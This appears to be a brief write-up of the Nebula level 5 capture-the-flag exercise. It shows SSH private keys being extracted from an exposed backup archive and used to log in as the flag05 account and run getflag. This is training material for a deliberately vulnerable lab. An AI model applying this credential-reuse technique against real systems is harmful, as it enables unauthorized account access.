 .. _nebula05:

.. role:: bash(code)
	  :language: bash

Nebula 5
========

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level05/

**No source code given**

Solution
--------

Un-tar into level05 home

.. code-block:: bash

   tar xvzf backup-19072011.tgz -C /home/level05/
   .ssh/
   .ssh/id_rsa.pub
   .ssh/id_rsa
   .ssh/authorized_keys
   ssh flag05@localhost
   
.. note:: Password is not asked since we have a key

   :bash:`$getflag`
